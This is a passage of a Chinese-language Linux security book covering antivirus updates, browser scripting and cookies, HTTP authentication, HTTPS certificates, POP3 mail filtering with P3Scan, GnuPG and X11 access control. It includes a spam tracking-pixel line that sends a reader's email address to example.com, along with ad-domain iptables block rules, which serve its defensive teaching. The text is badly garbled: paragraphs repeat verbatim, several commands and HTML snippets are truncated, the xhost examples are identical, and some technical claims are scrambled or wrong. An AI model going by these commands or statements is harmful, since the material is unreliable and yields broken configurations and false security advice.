daily.cvd updated (version: 306, sigs: 1212, f-level: 2, builder: diego)
Database updated (21441 signatures) from database.clamav.net (80.69.67.3).
```

病毒定义文件及其附带的 `MD5` 校验和保存在不同的服务器上，以确保数据的完整性。然而，手动更新定义文件并不是最优雅的解决方案，`freshclam` 也可以作为守护进程启动，定期更新定义。在这里我们使用 `-d` 标志将其作为守护进程调用，并将更新间隔设置为每天两次 (`-c 2`)：

```bash
# freshclam -d -c 2
```

随后守护进程会放弃 `root` 权限，并以 `clamav` 用户身份运行。将此命令添加到相关的 `rc` 文件（例如 `rc.local`）可以使守护进程在机器启动时启动。

## 普通防病毒预防

防病毒软件的效果取决于其定义文件，并且永远无法提供完全保护；它们只能提供。防病毒软件的效果取决于其定义文件，并且永远无法提供完全保护；它们。

## 7.2 安全浏览

浏览器变得越来越先进，滥用的可能性也随之增长。在本节中，我们涵盖了关于 `Cookie` 的内容。除了网页浏览，电子邮件是另一个安全和隐私持续存在问题的客户端领域。“7.3 电子邮件”节讨论了恶意内容的威胁和垃圾邮件保护措施，然后讨论了使用 `PGP` 和 `GnuPG` 进行隐私保护。

## 脚本

如果你用过 `Cookie`，你就知道可以获取到多少信息。随着浏览器插件变得越来越流行（更不用说强大），尽管在该领域有了许多改进，恶意网站对本地系统的威胁仍然是一个令人关注的问题。我们还将探讨网页浏览和脚本问题，无论你运行什么操作系统，这都是潜在的威胁。

# Linux 网络安全

`SERVER_ADDR` : `127.0.0.1`

`DOCUMENT_ROOT` : `/var/www/htdocs`

`HTTP_HOST` : `localhost`

`UNIQUE_ID` : `QJ-c7McOAAAE3sAWo`

这些信息中的大部分与 `Apache` Web 服务器有关，但正如你所看到的，浏览器版本和操作系统都是清晰可见的。

## 关于 Java、JavaScript 和 ECMA 的说明

`Java` 和 `JavaScript` 这两个术语是许多用户感到困惑的持续来源——尽管名称相似，但它们之间的共同点非常少。`Netscape` 在 1995 年创建了 `JavaScript`，并在 `Netscape Navigator 2.0` 浏览器中首次推出了该语言。该语言最初被称为 `LiveScript`，但当时 `Sun` 公司的 `Java` 语言在计算行业引起了巨大轰动，`Netscape` 重新命名了它的脚本语言，希望借用 `Java` 的成功。

与此同时，微软正在开发自己的浏览器脚本语言，并命名为 `JScript`。虽然两者并不完全相同，但 `JavaScript` 和 `JScript` 非常相似，对于普通用户和 Web 设计师来说，通常只有尖端脚本需要担心两者之间的差异，而这两种语言可以被认为几乎完全相同的。

为了调和这两种语言（它们是根据不同的目标开发的且正在迅速分化），欧洲计算机设备协会（`ECMA`）在 1997 年尝试对它们进行标准化。这导致了明年 `ECMAScript` 的诞生，它提供了一个由 `JavaScript` 和 `JScript` 构成的跨平台、跨浏览器语言。尽管从技术上讲 `ECMAScript` 是创建网站时使用的正确语言，但在口语中仍然被称为 `JavaScript`。

## JavaScript

以下脚本使用嵌入 `HTML` 的 `JavaScript` 来列出客户端详情。由于浏览器执行所有的脚本处理，你不需要运行 Web 服务器即可查看此页面。


```html
<html>
<body
<script language="ECMAScript">
document.write("<center><table> border=1 cellpadding=2><tr><td><td>");
document.write("<center><b>", navigator.appName, "</b>");
document.write("</center><tr><td>");
document.write("<table border=1 cellpadding=2>");
document.write("<td>Code Name: " + navigator.appCode, "</td><td><center>");
document.write("<b>", navigator.appCode, "</b>");\ndocument.write("<tr><td>Version: " + navigator.version, "</td><td><center>");
document.write("<b>", navigator.version.substring(0,4) + "</</td>></tr></tr>");
document.write("<tr><td>Referrer: " + document.referrer, "</td><td><center>");
document.write("<b>", document.referrer, "</b>");\ndocument.write("<tr><td>Cookies enabled? " + navigator.cookieEnabled, "</td><td><center>");
document.write("<b>", navigator.cookieEnabled, "</b>");</tr>
document.write("<tr><td>Platform: " + navigator.platform, "</td><td><center>");
document.write("<b>", navigator.platform, "</b>");</tr>
document.write("<tr><td>Pages Viewed: " + history.length, "</td><td><center>");
document.write("<b>", history.length, "</b>");</tr>
document.write("<tr><td>Java enabled: " + navigator.javaEnabled(), "</td><td><center>");
document.write("<b>", navigator.javaEnabled(), "</b>");</tr>
document.write("<tr><td>Screen Resolution: " + screen.width + " x " + screen.height, "</td><td><center>");
document.write("<b>", screen.width, "</b>");</tr></tr>
document.write("<tr><td>Color Depth: " + screen.colorDepth, "</td><td><center>");
document.write("<b>", screen.colorDepth, "</b>");</tr>
document.write("</tr></table></center>");
</script>
</body>
</html>
```

你是否应该担心你的浏览器泄露所有这些信息？也许应该，也许不必。虽然这是一种轻微的隐私侵犯，但并不是安全威胁，而且某些信息对于高科技页面的正确渲染是必要的（因为 Internet Explorer 和 Netscape/Mozilla 处理 JavaScript 的方式不同，页面通常需要根据用户的浏览器提供不同的内容）。偶尔也会出现更严重的漏洞，所以除非你有需要，否则应该禁用 JavaScript。

Web 上的其他脚本语言（如 Microsoft ActiveX 和 VBScript）在 Linux 浏览器中默认通常不支持，但它们可以作为插件形式提供。这两种语言都有安全问题的历史；所以再次，除非你真的需要它们，否则请远离它们。

## Java

对于许多人来说，Java 与交互式 Web 内容等同。记住，Java 是一种丰富的多平台语言，Web applet 只是其很小的一部分。与许多 Web 脚本语言不同，Java 可以执行与浏览器不直接相关的任务，你需要一个强大的安全模型来防止 applet 对主机系统具有完全控制。

Java 的安全模型基于一个自定义的“沙箱”——applet 可以在其中安全运行而无法与沙箱之外的任何内容进行交互。沙箱阻止 applet 执行的操作包括：

- 读取或写入文件，包括任何与文件相关的操作（如检查其状态）
- 创建网络连接
- 打印
- 创建窗口

沙箱防止 applet 与任何内容进行交互，除非它们源自同一域名并且专门允许了此选项。Sun 的 Java 开发工具包（JDK）提供了检查 applet 是否受信任的工具。

广告公司使用 Cookie 进行跟踪的程度实际上令人担忧。

# Linux 网络安全

## 冲击波 Flash (Shockwave Flash)

Macromedia Flash 插件为 Web 站点提供交互内容，在其核心，Flash 在创建游戏和动画方面非常受欢迎。通过其内置脚本语言——Action Script——Flash 可以执行类似 JavaScript 的功能。Flash 并非没有问题：2002 年 1 月开发了一种针对 Flash 的概念病毒，同年晚些时候发现了可以在主机上执行恶意代码的缓冲区溢出，但你应该警惕新的漏洞。

从 6 版本开始，Flash 在执行文件时使用沙箱模型。对于 Java，这种沙箱为执行提供了一个安全环境，并限制了对操作系统的访问。沙箱功能包括：

- 访问存储临时数据以外的文件；即使如此，这也限于特定目录，且最大为 100 KB。根据需要可以完全禁用存储。
- 不以任何方式与其它域名进行网络访问，除非它们源自同一域名并且专门允许了此选项。

## Cookie

自 1995 年由 Netscape 发明以来，公众对 Cookie 的功能一直存在误解——1998 年的一份计算机入侵建议能力报告指出，误解已达到“近乎神秘的程度”——但与大众观点相反，浏览器 Cookie 并非完全邪恶——事实上，如果没有 Cookie，大多数网站（电子商务、论坛等）将变得不那么好用。然而，广告公司为了跟踪用户偏好对其广泛使用使其不受许多人的欢迎。

如果你的浏览器盲目接受所有 Cookie，你存储在机器上的 Cookie 可能会让你大惊。在 Mozilla/Netscape 中，可以通过编辑菜单，然后选择偏好、隐私和安全、Cookie 以及管理存储的 Cookie 来查看存储的 Cookie（见图 7.3）。

很多看到的 Cookie 来自你甚至没有访问过的域名；这些被称为第三方 Cookie，通常由广告公司使用 Cookie 来跟踪和跟踪合法域名的用户画像。可以建立关于你浏览习惯的完整画像，包括你访问的网站类型、在上面停留的时间以及

# 桌面安全 271



| 站点 | Cookie 名称 |
| --- | --- |
| `adtraffic.com` | `U` |
| `ads.id.com.pl` | `phpAds_capAdN` |
| `ads.pointroll.com` | `PnD` |
| `ads.pointroll.com` | `Ptbp` |
| `amazon.com` | `uid-main` |
| `ananova.com` | `ananova_user` |
| `bbc.co.uk` | `BBC-UID` |
| `com.com` | `XCLGFbrowser` |
| `doubleclick.net` | `id` |
| `fastclick.net` | `pluto` |
| `forums.getoo.org` | `phpbb2mysql_data` |
| `fristat.com` | `s1` |
| `fristat.com` | `c1` |
| `google.com` | `ms` |

关于所选 Cookie 的信息：

- 名称: `HumanClickACTIVE`
- 内容: `108790624248`
- 主机: `hc2humanclick.com`
- 路径: `/`
- 服务器安全: 无
- 过期: `06/23/04 13:11:22`
- 策略: 不存储可识别信息
- 删除 Cookie 删除所有 Cookie

**图 7.3** 查看存储的 Cookie

在浏览时显示 Cookie 的时间（或你的 IP 地址、浏览器类型和平台），用于提供。这些信息随后被出售给其他公司，以投放定向广告。例如，如果你花费了大量时间阅读这些指南，如果下次访问网站时弹出一个新广告，请不要惊讶。


最好的建议是阻止所有 Cookie，但这可能是不实际的，并且会导致某些设计良好的页面静默失效（它们没有预料到访问者不会接受 Cookie）。`Mozilla` 提供了相当好的 Cookie 限制选项，你可以通过选择“编辑”、“偏好”、“隐私”和“安全”来访问这些选项。

# Linux 网络安全

网站；也就是说，如果你访问 `example.com`，第三方站点无法放置 Cookie。此外还有选项用于限制 Cookie 的生命周期（许多站点将过期日期设置为非常高值），并在接受之前进行提示。拒绝第三方 Cookie 但接受来自源站的 Cookie 通常是安全性和可用性之间的一种折协。

这可能还不够，因为它意味着要在网络上的每台工作站上配置 `iptables` 规则。你可以使用数字地址而不是主机名来双重确保不受欢迎的域名读取或设置 Cookie：

```
# iptables -A FORWARD -s advertising.com -j
# iptables -A FORWARD -d advertising.com -j
```

当然，为每个已知站点手动添加条目是一项繁琐的工作。幸运的是，有几个站点列出了此类域名，我们最喜欢的是 `http://loyo.org/adservers!`。这个优秀的站点包含了 1000 多个域名，并且可以以各种格式生成列表，包括主机名或 IP 地址，以及一个名为 `/etc/hosts` 的文件。后两种方法特别有趣，因为它们通过确保域名解析为 `127.0.0.1` 而不是真实地址。注意，`iptables` 规则仅将规则插入 `INPUT` 表；为了保护局域网内的主机，你还需要将相同的规则插入 `FORWARD` 表。一种更好的系统是将被阻止的域名每行存储在一个单独的文件。它们可以使用以下 `bash` 脚本作为 `iptables` 命令的参数：

```bash
#!/bin/sh
exec </usr/local/etc/bdomains
while read address; do
  /usr/local/sbin/iptables -A FORWARD -s $address -j
  /usr/local/sbin/iptables -A FORWARD -d $address -j
done
```

# 认证

`HTTP` 支持认证，允许服务器根据用户提供的用户名和密码来区分用户（当用户到达受保护的网站区域时，通常会弹出的框请求凭据）。目前可用基础认证（Basic authentication）和摘要认证（Digest authentication），本节将介绍两者的优缺点。

# 基础认证

正如其名所示，基础认证是一种简单的认证形式，在这种情况下，服务器发出一个挑战，客户端在特殊的“认证”标头部响应用户名和密码。该标头部的内容使用 `base64` 编码，这是一种常用于 `MIME`（多用途互联网邮件扩展）邮件信息的简单编码。`Base64` 很容易被解码，它在 `HTTP` 中被用于允许冒号和回车符等字符（如果不编码，这些字符会被 Web 服务器视为控制字符）形成部分



图 7.4 基础 `HTTP` 认证。

# 274 Linux 网络安全

在步骤 1 中，客户端请求 `URL`。在步骤 2 中，服务器响应 `401 Unauthorized` 消息，表示用户无权访问该资源。此响应指定了受保护的域（因为一个站点可以有多个独立的受保护区域）以及支持的认证方法（在本例中为 `Basic`）。在步骤 3 中，客户端请求 `URL`，这次在请求中包含了 `Authorization` 标头部。如果这些凭据是可以接受的，服务器返回请求的页面（步骤 4）。

基础认证不是一种安全的用户认证方法。如前所述，用户名和密码可以被视为以明文通过网络传输。你可能觉得你的局域网免受流量嗅探，但考虑到中间 Web 代理的广泛使用（ISP 通常部署以降低带宽成本），认证数据的秘密性远无法保证。鉴于许多人对不同的服务重复相同的密码，这对整个局域网都是潜在威胁。

显而易见的解决方案是使用更强的加密，但仅此并不够。无论加密有多强，如果攻击者能够捕获加密的认证标头部，他稍后可以将它的加密形式回放给 Web 服务器，而无需破解它。为了防止此类和其他形式的攻击，需要一种称为摘要认证（Digest authentication）的更好系统。

# 摘要认证

对摘要认证的需求源于基础认证固有的不安全性。它所提供的改进包括：

- 密码绝不会以明文形式跨网络传输。
- 提供了针对重放攻击的保护。消息正文的完整性得到了保证。

摘要认证不是传输明文密码，客户端而是发送密码的 `MD5` 散值（摘要），这几乎无法被解码。服务器为它存储的用户密码生成一个 `MD5` 散值，并将其与收到的散值进行比较；如果两者匹配，几乎可以确定两个明文密码是相同的且

客户端请求密码保护的页面
服务器发出挑战，要求用户名和密码的 `MD5` 散值
客户端发送用户名和密码摘要
服务器为收到的用户名生成自己的密码散值，并与发送的摘要进行比较

图 7.5 使用 `MD5` 散值（摘要）进行认证。

客户端知道正确的密码。这极大地减少了潜在的

...这可以防止重放攻击，因为特定的随机数（nonce）仅在短时间内有效，并且可能依赖于 IP 地址。

尽管与基础认证（Basic authentication）相比有了明显的改进，但摘要认证（Digest authentication）的采用率一直缓慢。一种常见的替代方案是在 `HTTPS` 之上部署基础认证；这既提供了基础认证的熟悉性，又提供了 `SSL` 带来的安全性（`SSL` 是 `HTTPS` 的底层的加密方法）。

# 安全 HTTP

现代广域网最重要的功能之一是电子商务，每天有数百万次涉及敏感数据（如信用卡号）的交易发生。加密这些敏感数据的任务由 `HTTPS` 协议处理，它是 `HTTP` 的一种安全形式。如果没有 `HTTPS`，电子商务现在可能不会像今天这样流行。

`HTTPS` 使用的底层加密技术是安全套接层（`SSL`）或传输层安全协议（`TLS`）。`TLS` 是最新（也是首选的方法），但 `SSL` 仍然被广泛使用。在指代安全套接层或传输层安全协议时，通常使用 `SSL` 术语（这是本章将使用的惯用法）。

`SSL` 受欢迎的原因之一是其易用性。加密功能是由独立的 `SSL` 库提供的，这意味着浏览器为了支持 `HTTPS` 所需进行的修改很少。当浏览器想要通过安全套接字发送数据时，它只需将数据传递给 `SSL` 库中处理复杂性问题的相关函数即可；对于 Web 设计师来说，编写 `HTTP` 页面或 `HTTPS` 页面几乎没有区别。

然而，`HTTPS` 事务涉及的步骤与 `HTTP` 不同。如图 7.6 所示，必须首先进行握手，在此期间，客户端和服务器交换关于协议版本和要使用的加密算法的信息，相互进行身份验证，并生成临时会话密钥；在关闭 `TCP` 连接之前，双方还必须发送 `SSL` 通知。在不安全的介质（互联网）上建立安全连接时，一个经常出现的问题是密钥必须以明文在主机之间交换。如果攻击者捕获了这些密钥，后续加密将无法提供保护。解决这一问题是通过公钥密码学（`PKC`）的发展，我们将在本章深入探讨这一主题；然而，`PKC` 速度较慢，常见的折中方案是使用 `PKC` 提供一个安全通道用于初始密钥交换，然后退回到如 `RSA`（Rivest, Shamir, Adleman）之类的算法，这种算法要快得多。


图 7.6 `HTTPS` 协议。

# 数字证书

加密可以保护跨越网络传输的数据，但单凭加密无法保证接收者确实是其所声称的身份。想象这样一个场景：攻击者获取了 Web 网站名称服务器的访问权限，并修改了 `DNS` 记录，使域名现在指向攻击者的 Web 服务器，该服务器托管了真实网站的副本。无论使用的加密强度如何，攻击者仍然可以解密，因为所使用的密钥是服务器已知的。

数字证书通过提供一种保证来解决这个问题，即接收者确实是其所声称的身份。想象这样一个场景：攻击者获取了 Web 网站名称服务器的访问权限，并修改了 `DNS` 记录，使域名现在指向攻击者的 Web 服务器，该服务器托管了真实网站的副本。无论所使用的加密强度如何，攻击者仍然可以解密，因为所使用的密钥是服务器已知的。

数字证书通过提供一种保证来解决这个问题，即接收者确实是其所声称的身份。想象这样一个场景：攻击者获取了 Web 网站名称服务器的访问权限，并修改了 `DNS` 记录，使域名现在指向攻击者的 Web 服务器，该服务器托管了真实网站的副本。无论所使用的加密强度如何，攻击者仍然可以解密，因为所使用的密钥是服务器已知的。


数字证书通过提供一种保证来解决这个问题，即接收者确实是其所声称的身份。想象这样一个场景：攻击者获取了`Web`网站名称服务器的访问权限，并修改了`DNS`记录，使域名现在指向攻击者的`Web`服务器，该服务器托管了真实网站的副本。无论所使用的加密强度如何，攻击者仍然可以解密，因为所使用的密钥是服务器已知的。

存储证书信息的标准由`X509`标准定义。`X509`为证书提供了结构化，并列出了以下应当存在的字段：

- `Version`: `X509`的版本。

- `Serial Number`: `CA`生成的区分证书的唯一数字。


### 证书核心字段

- **签名算法**（Signature Algorithm）：用于签名的加密方法。
- **颁发者**（Issuer）：签署证书的认证机构。
- **有效期**（Validity Period）：证书的有效期，指定为开始和结束日期。
- **主题名称**（Subject's Name）：证书所属的对象。
- **主题公钥信息**（Subject's Public Key Information）：主体的公钥信息。
- **认证机构签名**（Certification Authority's Signature）：CA 提供的数字签名，使用 Signature Algorithm 字段中指定的算法。

这些核心字段在所有符合 `X509` 标准的证书中都是存在的（遗憾并非所有证书都符合 `X509` 标准）。除了这些，还定义了许多可选字段，包括有关公钥如何使用的 Issuer ID 和 Subject ID 扩展；以及授予证书的策略。

# 280 Linux 安全

## 7.3 电子邮件

虽然电子邮件中的病毒和恶意代码对许多操作系统是一个持续的威胁，但 Linux（广义的 UNIX）受此问题的影响较小。因此，在本节中，我们将关注垃圾邮件预防和消息机密性，尽管我们也会查看 Linux 作为其他邮件服务器时的反病毒过滤。

### 客户端邮件过滤

过滤入站邮件的逻辑位置是邮件服务器本身；即从互联网传入的邮件被工作站上运行的邮件客户端获取之前所在的地方。但如果你或你的用户拥有其他位于远程主机的邮件账户（例如由 ISP 提供的），访问此类账户将完全绕过局域网邮件服务器上的反病毒/反垃圾过滤器。`P3Scan` 是一种用于 POP3 客户端的透明代理服务器，为这个问题提供了一个优雅的解决方案。图 7.8 和下文列表展示了它是如何工作的：



图 7.8 `P3Scan` 为 POP3 客户端提供透明代理。

1. 工作站上的邮件客户端尝试连接到远程 POP3 服务器。
2. 防火墙上的 `iptables` 规则将数据包重定向到本地端口，`p3scan` 守护进程正在该端口监听。
3. 守护进程读取数据包上的预期目标地址，并连接到目标主机上的 POP3 服务器。
4. 守护进程从远程主机收集邮件，并对其进行病毒、垃圾邮件等扫描。
5. 未受感染的邮件被送回给客户端。

`P3Scan` 仅提供邮件代理的框架。要实际扫描邮件，你需要在 `p3scan` 配置文件中指定兼容的第三方病毒扫描器，ClamAV 完美符合需求。

#### 安装 P3Scan

```
virusregexexp = .*: (.*) FOUND

skanner = /usr/bin/clamscan --no-summary -i

skannertype = basic
```

最后一步是在你的 `iptables` 规则集中添加一条规则，将 POP3 流量转发到 `P3Scan` 绑定守护进程的本地端口（由配置文件中的 `port` 选项设置）：

```
iptables -t nat -A PREROUTING -p tcp --dport 110 -j \
REDIRECT --to 8110
```

#### 垃圾邮件过滤

除了病毒扫描外，`P3Scan` 还支持使用第三方垃圾邮件扫描器，这引发了一些道德问题。保持网络不被病毒入侵至关重要。

# Linux 网络安全

但阻止该组织认为不适合员工的邮件真的是该组织的管辖范围吗？如果邮件是发送到该组织域名下的地址，情况可能会有所不同，但 `P3Scan` 是用于访问远程 POP3 服务器上所谓的私有账户。

采取这种自由态度的问题在于，即使邮件没有充满病毒，也可能通过嵌入的 HTML 标签变成恶意或不受欢迎的内容。通常，回复垃圾邮件是一个坏主意，因为这允许垃圾邮件发送者识别出有效的地址，但在大多数情况下，即使只是查看消息也足以让发邮件者知道该地址是有效的。垃圾邮件发送者只需要在 HTML 正文中添加如下的一行：

```html
<img src="http://example.com/cgi-bin/count?email=john@isp.com" width=0 height=
```

将在 `example.com` 的日志文件中留一个条目，显示该地址是活跃的，同时也显示该邮件地址所有者的 IP。正如你之前看到的，其他可能的敏感信息也泄露了。

也许最好的策略是使用以下规则拒绝用户访问远程 POP3 服务器：

```
iptables -t nat -A PREROUTING -p tcp --dport 110 -j DENY
```

然后你可以在邮件服务器上过滤邮件，并确信你没有侵犯用户的个人自由。

#### 邮件完整性

#### 公钥密码学 (PKC)

如附录 E 所示，`PGP`（Pretty Good Privacy）和 `GnuPG`（Gnu Privacy Guard)[GnuPG FAQ] 在 Linux 下都得到了完全支持，但我们更倾向于 `GnuPG`，因为它采用了 GPL（通用公共许可证）。

`GnuPG` 是一个命令行工具并已于大多数 Linux 发行版中；此外，`GnuPG` 项目还生成了 `gpg`，它是 `GnuPG` 的图形前端。如果这还不够，`Seahorse` (http://seahorse.sourceforge.net/) 为 `GNOME`（GNU 网络对象模型环境）提供了一个前端，而 `Geheimnis` (http://geheimnis.sourceforge.net/) 为 `KDE`（K 桌面环境）提供了类似的功能。

至于与邮件客户端的交互，众多 MUA（邮件用户代理）支持 `GnuPG`：

- `Kmail` (KDE) [Nottebrock04]
- `Evolution` (GNOME)
- `Mozilla`
- `Pine` (控制台) [Maple01]
- `Mutt` (控制台) [Miller01]

我们刚刚触及公钥密码学的冰角，但你可以在 `GnuPG` 主页 (http://www.gnupg.org) 获取文档，其中包含了大量关于实现 `GnuPG` 和通用公钥密码学的信息，应该回答你现在和未来所有的问题。本章末的参考部分提供了大量的相关阅读材料。

## 7.4 X WINDOWS

第 2 章介绍了用于 UNIX 窗口系统 `X11` 的客户端/服务器模型，并解释了它对底层平台的抽象如何使其易于网络化。例如，你可以在远程主机上运行 `X11` 应用程序，并在运行在本地机器上的 `X11` 会话上显示它。如前提到的，在远程 `X11` 会话上还可以执行以下操作：

- 截图
- 发送事件（击键和鼠标操作）
- 捕获事件

`X Windows` 提供了两种限制谁可以访问服务器的方法：基于主机的认证和基于令牌的认证。这两者将在后续章节中介绍。

### 基于主机的认证

最常用的方法（也是最不安全的）是基于主机的认证，如果连接客户端的 IP 地址或主机名在其访问列表中，则允许访问服务器。此列表可以使用 `xhost` 命令查看和修改。

查看访问列表：

```
$ xhost
access control enabled, only authorized clients can connect
INET:zeus.zeus
INET:192.168.0.33
INET:192.168.0.33
```

添加主机：

```
$ xhost
access control enabled, only authorized clients can connect
INET:zeus.zeus
INET:192.168.0.33
INET:192.168.0.33
```

移除主机：

```
$ xhost
access control enabled, only authorized clients can connect
INET:zeus.zeus
INET:192.168.0.33
INET:192.168.0.33
```

禁用访问控制：

```
$ xhost
access control enabled, only authorized clients can connect
```

同样，要从列表中移除主机，你使用：

```
$ xauth extract - $DISPLAY | ssh pet@remote.host xauth merge
```

在此示例中，我们首先提取当前显示器（通过环境变量 `DISPLAY` 访问）的令牌，并将其传递给 `xauth merge` 命令，该命令在远程主机上执行。在 Cookie（令牌）传输完成后，远程客户端即可连接。

与基于主机的认证不同，使用令牌确保了只有远程主机上的特定用户可以访问 X 服务器。由于该方案的安全性取决于令牌的机密性，你必须确保它不会被他人读取。`.authority` 文件应设置为 `chmod 600 (rw-------)`，并且所在的用户主目录不应被导出供 NFS 或 Samba 挂载。

正如你所见，令牌认证的缺点是它稍微复杂，需要理解 `X11` 运行的底层协议。此外，它还增加了用户和管理员的额外工作。尽管如此，基于令牌的认证仍然是首选方法（至少从安全的角度来看）。

我们还指出 `xauth` 方案的优先级低于 `xhost`；也就是说，在冲突时，`xhost` 会覆盖 `xauth`。

## 总结


本章的重点是从桌面用户的角度来看 Linux 的安全性；虽然这些细节是针对 Linux 的，但其中的许多通用原则（我们对 X Windows 的讨论除外）可能也适用于其他操作系统。如果你实施了所描述的技术，你的系统对被动攻击的防御能力将会大大增强。

正如你所见到的——而且与大众的认知相反——Cookie（饼干）实际上是无害无害的，尽管它确实引发了隐私问题。从安全的角度来看，脚本语言和插件带来的威胁大得多；在安装或启用任何插件或脚本语言之前，你应该深思熟虑。你还应该花时间探索你浏览器的安全和隐私设置，因为这些设置通常可以限制不可信（且可能是恶意）内容的操作范围。

尽管我们对电子邮件的讨论没有侧重于特定邮件客户端的细节，但你现在应该已经掌握了 PGP/GnuPG 背后的概念以及过滤电子邮件的潜力；你也应该理解为什么这些步骤很重要。本章末尾链接提供了在特定邮件客户端上实施这些措施的详细说明。

## 终注

1. 有关各种其他选项，请参阅 `clamscan` 手页以获取完整列表。

2. 指作为客户端时。某些服务如 `Sendmail` 确实需要以 `root` 身份运行。

3. `http://www.theregister.co.uk/2002/01/08/flash_gets_its_very_own/`

4. `http://zdnet.com/2100-1104-949344.html`

5. `http://www.ciac.org/ciac/bulletins/i-034.html`

6. 阻止来自源网站的会话 Cookie 的收益仍有争议，因为关于客户端的信息（包括引用来源 URL）存在于 Web 服务器的日志文件中。

7. 取决于 Web 服务器使用的加密方法，密码可能已经以 `MD5` 哈希值的形式存在。

## 参考文献

- `[GnuPG FAQ]` "GnuPG FAQ," 在线获取 `http://www.gnupg.org/(en)/documentation/faqs.html`.

- `[Maple01]` Maple, Ryan W, "Using GnuPG with Pine for Secure E-Mail." 在线获取 `http://www.linuxsecurity.com/feature_stories/pine-and-pgp-printer.html`, 2001.

- `[Miller01]` Miller, Justin R, "Everything You Need to Know to Start Using GnuPG with Mutt." 在线获取 `http://codesercery.net/mutt-mutt-howto`, 2001.

- `[Nottebrock04]` Nottebrock, Michael, "GnuPG and KMail Howto." 在线获取 `http://freebsd.kde.org/howtos/gnupg-kmail.php`, 2004.

- `[Whalen02]` Whalen, David, "The Unofficial Cookie FAQ." 在线获取 `http://www.cookiecentral.com/faq/`, 2002.

# 8 系统加固

## 本章内容

- 选择发行版
- `chroot` 环境
- 精简 Linux
- 内存保护
- 使用 `Systrace` 监控系统调用

在第 6 章“基础系统安全措施”中，你了解了如何（以及为什么）禁用不必要的服务。遗憾的是，你可能仍然需要运行某些服务（特别是因为这是使用 Linux 的流行原因之一），因此安全地配置这些服务应该是你的下一个任务。在第 10 章“服务安全”中，我们将查看某些特定服务的配置选项，但现在，我们将关注通用的系统安全措施，包括保护整个服务的方法。

关于哪种 Linux 发行版最安全意见存在分歧，因此我们将简要回顾一些最流行的发行版，并提到它们的优缺点。

# Linux 网络安全

之后，我们将注意力转向根监狱（root jails）——一种通过“监禁”服务来限制其在本地系统上权限的方法。如果服务被破坏，这将是无价的，因为攻击者能造成的损害被降到了最低。我们不仅简单地解释 `root` 的工作原理，还会教你为任何守护进程或服务构建根监狱的技术。

第 8.3 节“精简 Linux”考虑了攻击者已获得本地系统访问权限的情况。即使在这种情况下，你仍然可以通过移除编译器和网络实用程序等应用程序让他的生活变得艰难。这些操作可以防止入侵者获得 `root` 权限，并限制其对网络上其他机器的渗透。

# 8.1 选择发行版

关于哪种是“最佳”Linux 发行版的这类常见问题，多年年来在新闻组上引发了许多激烈的辩论。随着 Linux 被部署在日益广泛的角色中（从 Web 服务器到制作好莱坞电影的特效），“最佳”一词太模糊了，无法给出确定的答案；而且，用户对哪种是最佳发行版的看法更多是出于个人偏好，而非技术价值。

问这个问题可能也未能考虑到，在所有厂商品牌的之下，Linux 仍然是 Linux。然而，发行版之间的区别在于实现安全性的难易程度。在本节中，我们将简要回顾一些最流行的发行版；包括主流发行版和专为安全设计的发行版。最终，所有发行版都具有同样的潜力。

## 通用发行版

我们将查看的第一组是通用发行版，旨在面向服务器和桌面市场。由于其通用性，在安装期间花时间仔细选择你需要的包——这可以节省你大量的时间。

### 系统加固

由于通用发行版通常不是以安全为首要目标创建的（这并不是意味着它们是不安全的），许多默认安装往往为了易用性而牺牲安全性，要求管理员在最初投入额外工作来加固系统。然而，最终它们具有相同的安全性能力。

### Red Hat®/Fedora™ (`http://www.redhat.com`)

